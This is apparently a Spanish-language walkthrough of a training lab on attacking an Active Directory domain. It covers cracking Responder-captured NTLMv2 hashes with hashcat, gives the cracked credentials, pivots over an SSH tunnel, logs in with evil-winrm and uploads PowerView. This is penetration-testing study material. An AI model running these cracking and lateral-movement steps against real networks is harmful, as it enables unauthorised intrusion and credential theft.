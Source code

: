- Obtenemos hashes en `/usr/share/responder/logs`, viendo que aparece el usuario `AB920` en repetidas ocasiones. Tratamos de craquear el hash de este usuario:
    ```bash
    tail -1 /usr/share/responder/logs/SMB-NTLMv2-SSP-172.16.7.3.txt > hashAB920
    hashcat -m 5600 hashAB920 /usr/share/wordlists/rockyou.txt
    ```

- Conseguimos craquearlo teniendo las primeras credenciales de accesso al dominio: 
    - `AB920:weasal`

- Nos conectamos con MS01 vía `evilwin-rm` (no funciona algún protocolo como rdp) pivotando en la máquina a la que tenemos acceso
    - Pivotamos sobre la máquina que nos dan acceso (`$target` es ahora MS01 y `$pivot` la máquina parrot que nos dan acceso)
        ```bash
        # http (default) - podría hacer falta 5986 para https
        ssh -NfL 5985:$target:5985 htb-student@$pivot
        ```
    - Nos conectamos vía winRM del siguiente modo: 
        ```bash
        evil-winrm -i 127.0.0.1 -u AB920 -p weasal
        # ó 
        evil-winrm -i 127.0.0.1 -u AB920@INLANEFREIGHT.LOCAL -p weasal
        # no funciona ninguna de los intentos comentados a continuación:
        #evil-winrm -i 127.0.0.1 -u INLANEFREIGHT.LOCAL\AB920 -p weasal
        #evil-winrm -i 127.0.0.1 -u INLANEFREIGHT\AB920 -p weasal
        ```

    - Obteniendo la primera flag

###  Use a common method to obtain weak credentials for another user. Submit the username for the user whose credentials you obtain.
- Nos pasamos la herramienta `powerview` a `MS01`:
    ```powershell
    *Evil-WinRM* PS C:\Users\AB920\Documents\utils> upload /home/an0nio/htb/academy/AD/lab2/share/powerview.ps1 C:\Users\AB920\Documents\utils
    ```
- Ponemos las credenciales del usuario para poder ejecutar algunos comandos que interactúen con otros servicios del sistema: 
    ```powershell
    $SecPassword = ConvertTo-SecureString 'weasal' -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\\AB90', $SecPassword)
    ```
- Al ser un usuairio con pocos privilegios, no podemos ejecutar dumpeo de LSASS, SAM, ni obtener usuarios susceptibles de aspreproasting. Tampoco parece que arroje ninguna infromación hacer ataques kerberoasting. 
